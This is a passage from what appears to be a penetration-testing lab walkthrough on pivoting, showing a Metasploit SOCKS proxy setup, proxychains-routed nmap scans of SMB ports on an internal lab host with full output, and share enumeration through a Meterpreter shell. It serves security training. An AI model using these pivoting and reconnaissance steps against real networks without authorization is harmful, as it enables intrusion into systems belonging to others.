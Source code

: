 `search socks`, `use auxiliary/server/socks_proxy`, `show options`, `set SRVPORT 9050`, `set VERSION 4a`, `exploit`, `jobs`.

**Step 13**: Let's run nmap with proxychains to scan SMB ports on the pivot machine (i.e. `demo1.ine.local`).

`proxychains nmap -sS -Pn demo1.ine.local -p135,139,445`:
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 16:19 IST
Nmap scan report for demo1.ine.local (10.4.31.68)
Host is up.

PORT    STATE    SERVICE
135/tcp filtered msrpc ←
139/tcp filtered netbios-ssn ←
445/tcp filtered microsoft-ds ←

Nmap done: 1 IP address (1 host up) scanned in 3.17 seconds
```

`proxychains nmap -sT -Pn demo1.ine.local -p135,139,445`:
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 16:20 IST
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.31.68:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.31.68:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.31.68:139  ...  OK
Nmap scan report for demo1.ine.local (10.4.31.68)
Host is up (0.073s latency).

PORT    STATE SERVICE
135/tcp open  msrpc ←
139/tcp open  netbios-ssn ←
445/tcp open  microsoft-ds ←

Nmap done: 1 IP address (1 host up) scanned in 0.33 seconds
```

**Step 14**: Let's find all resources shared by the `demo1.ine.local` machine.

`sessions -i 1`, `shell`, `net view 10.4.28.92`:
```
Shared resources at 10.4.28.92


Share name  Type  Used as  Comment  

-------------------------------------------------------------------------------
Documents   Disk ←
K           Disk ←
The command completed successfully.
```
